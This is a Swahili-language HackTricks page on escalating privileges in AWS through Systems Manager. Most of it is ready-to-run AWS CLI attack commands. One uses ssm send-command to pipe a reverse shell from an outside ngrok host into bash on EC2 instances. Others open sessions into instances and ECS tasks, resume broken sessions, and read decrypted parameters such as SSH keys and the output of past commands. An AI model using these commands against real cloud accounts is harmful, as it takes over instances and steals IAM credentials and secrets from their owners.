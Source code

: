 # AWS - SSM Privesc

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## SSM

Kwa habari zaidi kuhusu SSM angalia:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Mshambuliaji mwenye ruhusa ya **`ssm:SendCommand`** anaweza **kutekeleza amri kwenye mifano** inayotumia Amazon SSM Agent na **kudhoofisha Jukumu la IAM** linalotumika ndani yake.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Ikiwa unatumia mbinu hii kuinua mamlaka ndani ya kifaa cha EC2 ambacho tayari kimevamiwa, unaweza tu kukamata rev shell kwa ndani kwa kutumia:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Athari Inayowezekana:** Privesc moja kwa moja kwa majukumu ya IAM ya EC2 yanayohusishwa na mifano inayotumia Mawakala wa SSM.

### `ssm:StartSession`

Mshambuliaji mwenye ruhusa ya **`ssm:StartSession`** anaweza **kuanzisha kikao kama cha SSH kwenye mifano** inayotumia Amazon SSM Agent na **kuathiri jukumu la IAM** linalotumika ndani yake.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Ili kuanza kikao unahitaji **SessionManagerPlugin** imewekwa: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Matokeo Yanayowezekana:** Privesc moja kwa moja kwa EC2 IAM roles zilizowekwa kwenye mifano inayotumika na SSM Agents inayotumika.

#### Privesc kwenda ECS

Wakati **ECS tasks** zinaendeshwa na **`ExecuteCommand` imewezeshwa** watumiaji wenye ruhusa za kutosha wanaweza kutumia `ecs execute-command` kutekeleza amri ndani ya kontena.\
Kulingana na [**nyaraka**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) hii inafanywa kwa kuanzisha kituo salama kati ya kifaa unachotumia kuanzisha amri ya "_exec_" na kontena ya lengo na SSM Session Manager.\
Kwa hivyo, watumiaji wenye `ssm:StartSession` wataweza **kupata kabati ndani ya ECS tasks** na chaguo hilo limezimwa tu kwa kutekeleza:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
**Athari Inayowezekana:** Privesc moja kwa moja kwa majukumu ya `ECS`IAM yanayohusishwa na kazi zinazoendelea na `ExecuteCommand` imewezeshwa.

### `ssm:ResumeSession`

Mshambuliaji mwenye ruhusa ya **`ssm:ResumeSession`** anaweza kuanzisha upya kikao cha aina ya SSH kwenye mifano inayotumia Amazon SSM Agent na hali ya kikao cha SSM iliyovunjika na **kuathiri Jukumu la IAM** linaloendeshwa ndani yake.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Athari Inayoweza Kutokea:** Privesc moja kwa moja kwa majukumu ya EC2 IAM yaliyounganishwa na mifano inayofanya kazi na Mawakala wa SSM wanaofanya kazi na vikao vilivyovunjika.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Mshambuliaji mwenye ruhusa zilizotajwa ataweza kuorodhesha **parameta za SSM** na **kusoma kwa wazi**. Katika parameta hizi mara nyingi unaweza **kupata habari nyeti** kama vile funguo za SSH au funguo za API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Athari Inayowezekana:** Pata habari nyeti ndani ya paramita.

### `ssm:ListCommands`

Mshambuliaji mwenye idhini hii anaweza kupata orodha ya **maagizo** yote yaliyotumwa na kwa matumaini kupata **habari nyeti** juu yao.
```
aws ssm list-commands
```
**Athari Inayoweza Kutokea:** Pata habari nyeti ndani ya mistari ya amri.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Mshambuliaji mwenye ruhusa hizi anaweza kupata orodha ya **amri** zote zilizotumwa na **kusoma matokeo** yaliyozalishwa kwa matumaini ya kupata **habari nyeti** ndani yake.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Athari Inayoweza Kutokea:** Pata habari nyeti ndani ya matokeo ya mistari ya amri.

### Codebuild

Unaweza pia kutumia SSM kuingia kwenye mradi wa codebuild unaojengwa:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalamu wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
